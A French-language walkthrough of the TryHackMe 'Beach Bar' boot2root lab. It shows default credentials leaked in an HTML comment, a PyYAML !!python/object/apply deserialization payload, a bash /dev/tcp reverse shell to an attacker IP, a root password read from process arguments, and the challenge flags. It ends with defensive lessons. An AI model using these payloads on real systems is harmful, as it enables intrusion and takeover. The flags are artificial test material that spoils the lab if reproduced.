

# Beach Bar — TryHackMe (Easy)

> **Difficulté :** Easy
> **Type :** Boot2Root
> **Skills :** YAML deserialization, credential reuse, process inspection
> **Date :** 01/09/2026

## Contexte

La machine héberge un beach bar avec un jukebox gérable via une interface web. L'énoncé laisse entendre qu'un service tourne en arrière-plan et qu'un utilisateur ne s'est jamais déconnecté.

## Reconnaissance

### Nmap

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18
80/tcp open  http    Gunicorn
```

Deux ports uniquement : SSH (publickey only) et un serveur HTTP Gunicorn (Python). Aucune CVE exploitable sur les versions détectées via searchsploit.

### Énumération web (Gobuster)

```bash
gobuster dir -u http://10.112.140.76 \
  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```text
login    (Status: 200)
logout   (Status: 302 --> /login)
export   (Status: 302 --> /login)
```

Trois routes : une page de login, un logout, et un endpoint d'export qui requiert authentification.

## Étape 1 — Accès au panel DJ

L'inspection du HTML de la page de login révèle un commentaire laissé par le développeur :

```html
<!--
  staff note: the demo DJ login is still enabled for the soft opening.
  dj / dj  -- swap this before the season starts (ticket BAR-7)
-->
```

Credentials par défaut : `dj / dj`. Une fois connecté, le panel permet d'**exporter** et d'**importer** des playlists au format YAML.

Export YAML de référence :

```yaml
playlist:
  name: Sunset Session
  vibe: golden hour
  tracks:
    - artist: Khruangbin
      title: Maria Tambien
    - artist: Men I Trust
      title: Show Me How
```

## Étape 2 — RCE via désérialisation YAML

L'indice du challenge — *« the jukebox straight into th
e floor with the trimmings still attached »* — pointe vers une désérialisation YAML non sécurisée. Le serveur utilise `yaml.load()` (PyYAML 6.0.2) au lieu de `yaml.safe_load()`, ce qui permet l'exécution arbitraire de code via les tags `!!python/object/apply`.

### Test de confirmation

Payload minimal pour valider l'exécution :

```yaml
!!python/object/apply:os.system
args: ["bash -c 'whoami'"]
```

Le serveur renvoie `LOADED PLAYLIST` avec un retour `0` — exécution confirmée.

### Reverse shell

Sur l'attaquant (IP de `tun0` via `ip route get`) :

```bash
rlwrap nc -lvnp 4444
```

Payload à importer dans le champ YAML :

```yaml
!!python/object/apply:os.system
args: ["bash -c 'bash -i >& /dev/tcp/192.168.133.158/4444 0>&1'"]
```

> **Important :** le tag `!!python/object/apply` doit être seul à la racine du document YAML. Si on le mélange avec une structure `playlist:` existante, PyYAML lève une erreur de parsing. Le document ne doit contenir que le tag et ses arguments.

Shell obtenu en tant que `bartender`. Stabilisation :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl-Z, puis côté listener :
stty raw -echo; fg
export TERM=xterm-256color
```

### User flag

```text
bartender@tryhackme-2404:~$ cat user.txt
THM{y4ml_pl4yl1st_pwns_th3_b34ch}
```

## Étape 3 — Privilege escalation vers root

### Énumération

```bash
ps aux
```

Une ligne retient l'attention :

```text
root  609  /opt/beach-bar/venv/bin/python \
  /opt/beach-bar/jukeboxd/jukeboxd.py \
  --stream-pass SunsetSpritz2024! --bitrate 320k
```

Un service `jukeboxd.py` tourne en tant que **root** avec un mot de passe passé **en clair** sur la ligne de commande : `SunsetSpritz2024!`. C'est le *« service down the boardwalk quietly announcing something »* — n'importe quel utilisateur local peut lire les arguments de processus via `ps` ou `/proc/<pid>/cmdline`.

### Exploitation

```bash
bartender@tryhackme-2404:~$ su -
Password: SunsetSpritz2024!
root@tryhackme-2404:~# whoami
root
```

Le mot d
e passe est celui de **root**, pas de l'utilisateur `ubuntu`.

### Root flag

```text
root@tryhackme-2404:~# cat /root/root.txt
THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}
```

## Résumé de la chaîne d'exploitation



## Leçons retenues

1. **Désérialisation YAML** : `yaml.load()` sans `Loader=SafeLoader` est un RCE garanti en Python. Toujours utiliser `yaml.safe_load()`. L'indice *« trimmings still attached »* désignait précisément ce défaut.

2. **Secrets en ligne de commande** : tout argument passé à un processus est lisible par tous les utilisateurs via `ps aux` ou `/proc/<pid>/cmdline`. Les secrets doivent passer par des variables d'environnement, des fichiers avec permissions restrictives, ou un gestionnaire de secrets — jamais en argument CLI.

3. **Commentaires HTML** : laisser des credentials en commentaire HTML n'est pas une pratique acceptable, même pour un soft opening. Les commentaires HTML sont servis au client et visibles dans le source.

## Outils utilisés

- `nmap` — scan de ports et détection de version
- `gobuster` — énumération de répertoires web
- `searchsploit` — recherche de CVE sur les versions détectées
- `nc` / `rlwrap` — listener reverse shell
- inspection manuelle du source HTML et de `ps aux`
